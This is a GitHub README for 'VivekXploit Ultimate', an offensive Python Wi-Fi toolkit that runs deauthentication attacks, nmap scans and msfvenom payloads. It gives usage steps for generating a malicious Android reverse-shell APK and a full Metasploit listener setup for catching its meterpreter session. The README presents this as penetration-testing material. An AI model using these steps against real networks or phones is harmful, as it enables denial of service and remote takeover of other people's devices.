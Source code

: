# VivekXploit_Ultimate_WiFi_Attack_Toolkit
<b>VivekXploit Ultimate is an advanced Python-based Wi-Fi attack toolkit for ethical hackers. It features deauthentication attacks, Nmap network scanning, and Android reverse shell payload generation via Metasploit. Designed for penetration testing with external Wi-Fi adapters in Kali Linux.</b>

# VivekXploit - ULTIMATE Wi-Fi Attack Toolkit

```
__     ___           _    __  __      _       _ _    
 \ \   / (_)_   _____| | __\ \/ /_ __ | | ___ (_) |_  
  \ \ / /| \ \ / / _ \ |/ / \  /| '_ \| |/ _ \| | __|
   \ V / | |\ V /  __/   <  /  \| |_) | | (_) | | |_  
    \_/  |_| \_/ \___|_|\_\/_/\_\ .__/|_|\___/|_|\__|
                                |_|                  
             V i v e k X p l o i t - ULTIMATE
```

## 🔥 Overview

VivekXploit Ultimate is an advanced Python-based Wi-Fi attack toolkit designed for **authorized penetration testing and educational use**. It combines:

* ✅ **Deauthentication (DoS) attacks** on Wi-Fi networks
* ✅ **Nmap scanning** of local networks
* ✅ **Android payload creation** using Metasploit (`msfvenom`)

Created by: **Vivek Dhobale**

## 🚀 Features

| Feature                  | Description                                              |
| ------------------------ | -------------------------------------------------------- |
| 🔺 Deauth Attack         | Scan and disconnect clients from selected Wi-Fi networks |
| 🌐 Nmap Scanner          | Discover all live devices in your local subnet           |
| 📱 Payload Generator     | Create a malicious APK for Android reverse TCP shell     |
| 🔌 Wi-Fi Adapter Support | Works with external adapters in monitor mode             |
| 📂 Log Handling          | CSV files automatically moved to backup folder           |

## ⚙️ Requirements

* OS: **Kali Linux or Parrot OS**
* Python 3.6+
* Root privileges (`sudo`)
* External Wi-Fi adapter (e.g. Alfa AWUS036NHA)
* Tools installed:

  * `airmon-ng`, `airodump-ng`, `aireplay-ng`
  * `nmap`, `msfvenom`

Install Python requirements:

```bash
pip install -r requirements.txt
```

## 📥 Setup & Run

```bash
sudo python3 Vivekxploit_Ultimate_Cracker.py
```

## 🧪 Usage Instructions

### 🔹 Deauthentication Attack

1. Script detects your Wi-Fi adapters
2. Choose interface (e.g., wlan0)
3. Select target from scanned networks
4. Script sends continuous deauth packets

> Press `CTRL+C` to stop attack

---

### 🔹 Nmap Scan (Internal LAN)

* After deauth, select `1` to run network scan:

```
Do you want to run extra tools? (1) Nmap Scan (2) Generate Payload (3) Exit:
```

* Lists live hosts on your network (like 192.168.0.1–255)

---

### 🔹 Metasploit Payload Generator

* Select option `2`
* Enter your **LHOST (your IP)** and **LPORT (e.g., 4444)**
* Output: `vivek_payload.apk`
* Use with Metasploit listener:

```bash
msfconsole
use exploit/multi/handler
set payload android/meterpreter/reverse_tcp
set LHOST <your_ip>
set LPORT <your_port>
exploit
```

---

## 📡 Wi-Fi Adapter

To run monitor mode attacks, you **must use** a compatible external USB Wi-Fi adapter that supports injection (e.g., Alfa AWUS036NHA, TP-Link TL-WN722N v1).

## ⚠️ Legal Disclaimer

> This tool is for **educational and authorized penetration testing only**.
> Do not use it on networks you do not own or have permission to test.

Misuse of this tool can be illegal. The developer is not responsible for any damage caused.

## 👨‍💻 Author

* **Vivek Dhobale**
* GitHub: [github.com/VivekDhobale-VivekXploit](https://github.com/VivekDhobale-VivekXploit)
* LinkedIn: [linkedin.com/in/vivek-dhobale-vr](https://www.linkedin.com/in/vivek-dhobale-vr)

---

Made with ❤️ for ethical hackers and learners.
